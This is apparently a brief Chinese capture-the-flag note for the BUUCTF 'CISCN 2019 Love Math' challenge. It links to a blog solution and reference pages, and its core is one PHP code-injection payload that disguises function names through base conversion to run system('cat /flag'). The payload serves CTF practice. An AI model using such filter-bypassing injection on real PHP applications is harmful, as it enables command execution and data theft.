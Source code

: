 # WP
[buuctf-[CISCN 2019 初赛]Love Math（小宇特详解）_小宇特详解的博客-CSDN博客](https://blog.csdn.net/xhy18634297976/article/details/123148026)
# 知识点
[https://www.w3school.com.cn/php/php_ref_math.asp](https://www.w3school.com.cn/php/php_ref_math.asp)<br />payload
```powershell
?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{cos})($$pi{abs})&cos=system&abs=cat /flag
```
[在线进制转换 | 进制转换器 — 在线工具](https://www.sojson.com/hexconvert.html)

